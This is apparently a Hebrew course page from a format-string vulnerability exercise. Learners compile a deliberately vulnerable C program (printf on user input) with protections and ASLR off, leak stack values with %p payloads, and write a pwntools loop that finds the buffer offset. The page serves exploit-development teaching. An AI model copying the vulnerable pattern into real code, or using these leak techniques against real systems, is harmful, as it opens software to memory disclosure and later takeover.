

repository: AmitPinchasi/amittech · page: מחקר-חולשות/5 - חולשות מחרוזת פורמט/5.1 - יסודות format string/5.1 - יסודות format string - תרגול/index.html · generator: mkdocs

## תרגול - יסודות format string והleak של המחסנית

בתרגול הזה תבנו בעצמכם בינארי vulnerable למחרוזת format, תדליפו ממנו את תוכן המחסנית, ותמצאו את הנתון החשוב ביותר לכל שאר הפרק: **ההיסט הממוקם שבו יושב הקלט שלכם**. אל תדלגו לפתרון לפני שהמספר הזה יצא לכם ביד - כל השיעורים הבאים (קריאה שרירותית, כתיבה עם `%n`, דריסת GOT) מניחים שאתם יודעים למצוא אותו לבד.

הכינו את סביבת העבודה. שמרו את הקוד הבא כ-`fmt.c`:

```c
// fmt.c - a dummy binary vulnerable to a format string
#include <stdio.h>

int main(void) {
    char buf[128];
    printf("input> ");
    fflush(stdout);
    fgets(buf, sizeof(buf), stdin);
    printf(buf);          // the vulnerability
    return 0;
}
```

הדרו בלי הגנות שיפריעו ללימוד, וכבו זמנית ASLR כדי שהכתובות יהיו יציבות:

```bash
gcc -fno-stack-protector -no-pie -O0 -o fmt fmt.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space   # for learning purposes only
checksec --file=./fmt
```

### תרגיל 1 - leak ראשונה עם p

הריצו את הבינארי והזינו רצף של שמונה `%p`:

```bash
python3 -c "print('%p.'*8)" | ./fmt
```

- המשימה: זהו אילו מהערכים שהודפסו מגיעים מאוגרים ואילו מהמחסנית.
- רמז 1: במערכת 64 ביט, כמה מההמרות הראשונות נשלפות מאוגרים לפני ש-`printf` נוגעת במחסנית בכלל? חזרו לטבלה בהרצאה.
- רמז 2: ערכי האוגרים לרוב נראים כמו זבל או אפסים, בעוד שערכי המחסנית כוללים כתובות שמתחילות ב-`0x7fff...` (מחסנית) או `0x7f...` (libc).
- רמז 3: נסו להחליף `%p` ב-`%x` ולראות את ההבדל. למה כל `%x` מראה רק חצי מסלוט?

רשמו לעצמכם: כמה ההמרות הראשונות מגיעות מאוגרים בבנייה שלכם?

### תרגיל 2 - מציאת ההיסט של הbuffer

זו ליבת התרגול. שלחו סמן ייחודי באורך 8 בתים ואחריו רצף `%p`, ומצאו באיזה מיקום הסמן צץ:

```bash
python3 -c "print('AAAAAAAA' + '.%p'*12)" | ./fmt
```

- המשימה: מצאו את המספר הממוקם N כך ש-`%N$p` מדפיס בדיוק `0x4141414141414141`. זה ההיסט של הbuffer שלכם.
- רמז 1: `AAAAAAAA` בזיכרון little-endian הוא הערך `0x4141414141414141`. חפשו אותו ברצף.
- רמז 2: אחרי שספרתם את המיקום, אשרו אותו בקריאה ממוקמת בודדת. אם ספרתם 6, הריצו `python3 -c "print('%6\$p')" | ./fmt` וודאו שמתקבל `0x4141414141414141`.
- רמז 3: אם הסמן לא מופיע נקי אלא "חתוך", ייתכן שהbuffer לא aligned ל-8. ודאו שהסמן הוא בדיוק 8 בתים ושהוא בתחילת הקלט.

כתבו סקריפט pwntools שסורק היסטים אוטומטית ועוצר כשמצא את הסמן. מבנה מוצע:

```python
from pwn import *
context.log_level = 'error'
for i in range(1, 15):
    p = process('./fmt')
    p.recvuntil(b'input> ')
    p.sendline(b'AAAAAAAA|' + f'%{i}$p'.encode())
    out = p.recvline()
    p.close()
    # complete: print i and out, and stop when 0x4141414141414141 appears
```
